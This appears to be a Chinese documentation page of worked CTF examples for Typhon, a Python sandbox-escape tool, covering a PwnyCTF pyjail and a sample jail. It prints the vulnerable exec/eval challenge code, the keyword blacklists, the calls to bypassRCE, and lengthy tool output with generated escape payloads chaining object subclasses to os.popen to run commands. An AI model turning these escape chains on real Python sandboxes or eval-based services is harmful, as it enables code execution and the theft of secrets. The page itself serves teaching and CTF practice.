 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF-Pyjail 2
-------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 ``Typhon.bypassRCE()`` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::
    :emphasize-lines: 34

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：

- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。

- 禁止使用除 ``printable`` 字符集以外的字符。

- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 :func:`bypassRCE` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 ``Typhon.bypassRCE()`` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。

.. code-block::
    :emphasize-lines: 125

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.9.0
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    INFO [-] no paths found to directly getshell.
    INFO [*] Try to get string literals from docstrings.
    Bypassing (421/421): [===============================================================================>] 100.0%
    INFO [*] Try to get string literals from __name__.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [*] string literals found: {'s': 'st.__doc__.__getitem__(0)', 't': 'st.__doc__.__getitem__(1)', 'r': 'st.__doc__.__getitem__(0b10)', 'o': 'st.__doc__.__getitem__(0b100)', 'b': 'st.__doc__.__getitem__(0b101)', 'j': 'st.__doc__.__getitem__(0b110)', 'e': 'st.__doc__.__getitem__(0b111)', 'c': 'st.__doc__.__getitem__(0b1000)', 'y': 'st.__doc__.__getitem__(0b11011)', 'u': 'st.__doc__.__getitem__(0b100100)', 'f': 'st.__doc__.__getitem__(0b100101)', 'n': 'st.__doc__.__getitem__(0b101101)', 'd': 'st.__doc__.__getitem__(0b110000)', 'i': 'st.__doc__.__getitem__(0b110001)', 'g': 'st.__doc__.__getitem__(0b110011)', 'C': 'st.__doc__.__getitem__(0b1001001)', 'a': 'st.__doc__.__getitem__(0b1001100)', 'w': 'st.__doc__.__getitem__(0b1010100)', 'm': 'st.__doc__.__getitem__(0b1100111)', 'h': 'st.__doc__.__getitem__(0b1101010)', 'v': 'st.__doc__.__getitem__(111)', 'I': 'st.__doc__.__getitem__(0b1111011)', 'p': 'st.__doc__.__getitem__(0b10010101)', 'x': 'st.__doc__.__getitem__(0b10110101)', 'l': 'st.__doc__.__getitem__(0b11010000)', 'O': 'st.__doc__.__getitem__(0b100001010)'}
    INFO [*] int literals found: {'0': '0', '1': '1'}
    INFO [-] no paths found to directly getshell.
    INFO [*] 3 paths found to obtain generator. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 3 payload(s) in total.
    INFO [*] Using (a for a in ()).gi_frame as payload of generator
    INFO [*] 2 paths found to obtain type. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__ as payload of type
    INFO [*] 6 paths found to obtain object. Try to bypass blacklist with them. Please be paitent.
    Bypassing (6/6): [===============================================================================>] 100.0%
    INFO [+] Success. 5 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1) as payload of object
    INFO [*] 3 paths found to obtain bytes. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__(st().encode()) as payload of bytes
    INFO [*] __builtins__ in this namespace is deleted, no way to restore it.
    INFO [*] try to find __builtins__ in other namespaces.
    INFO [*] 5 paths found to restore builtins in other namespaces. Try to bypass blacklist with them. Please be paitent.
    Bypassing (5/5): [===============================================================================>] 100.0%
    INFO [-] no way to find a bypass method to restore builtins in other namespaces.
    INFO [*] Trying to find inheritance chains.
    Bypassing (206/206): [===============================================================================>] 100.0%
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0))) -> builtins
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))) -> sys
    INFO [*] 2 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 2 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [-] no paths found to obtain modules.
    INFO [*] 4 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 4 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [*] 1 paths found to obtain modules. Try to bypass blacklist with them. Please be paitent.
    Bypassing (1/1): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules as payload of modules
    INFO [*] try to import modules with MODULES path.
    Bypassing (20/20): [===============================================================================>] 100.0%
    INFO [*] modules we have found:
    INFO {'builtins': <module 'builtins' (built-in)>, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>, 'codecs': <module 'codecs' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\codecs.py'>, 'warnings': <module 'warnings' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\warnings.py'>, 'importlib': <module 'importlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\importlib\\__init__.py'>, 'reprlib': <module 'reprlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\reprlib.py'>, 'linecache': <module 'linecache' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\linecache.py'>, 'io': <module 'io' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\io.py'>}
    INFO [-] no paths found to obtain exec.
    INFO [+] Using env as the command to execute.
    INFO [*] 10 paths found to obtain __import__2RCE. Try to bypass blacklist with them. Please be paitent.
    Bypassing (10/10): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read() as payload of __import__2RCE


    WARNING [!] index 0 of st.__doc__[0] must match the string literal s.
    WARNING [!] index 4 of st.__doc__[4] must match the string literal o.
    WARNING [!] index 7 of st.__doc__[7] must match the string literal e.
    WARNING [!] index 27 of st.__doc__[27] must match the string literal y.
    WARNING [!] index 45 of st.__doc__[45] must match the string literal n.
    WARNING [!] index 111 of st.__doc__[111] must match the string literal v.
    WARNING [!] 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter.
    WARNING [!] index 1 of st.__doc__[1] must match the string literal t.
    WARNING [!] index 5 of st.__doc__[5] must match the string literal b.
    WARNING [!] index 36 of st.__doc__[36] must match the string literal u.
    WARNING [!] index 49 of st.__doc__[49] must match the string literal i.
    WARNING [!] index 208 of st.__doc__[208] must match the string literal l.
    WARNING [!] 110 is the index of StreamReaderWriter, path to builtins must fit in index of StreamReaderWriter.
    WARNING [!] index 8 of st.__doc__[8] must match the string literal c.
    WARNING [!] index 48 of st.__doc__[48] must match the string literal d.
    WARNING [!] index 2 of st.__doc__[2] must match the string literal r.
    WARNING [!] index 51 of st.__doc__[51] must match the string literal g.
    WARNING [!] index 76 of st.__doc__[76] must match the string literal a.
    WARNING [!] index 84 of st.__doc__[84] must match the string literal w.
    WARNING [!] index 103 of st.__doc__[103] must match the string literal m.
    WARNING [!] index 149 of st.__doc__[149] must match the string literal p.
    WARNING [!] index 106 of st.__doc__[106] must match the string literal h.


    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。

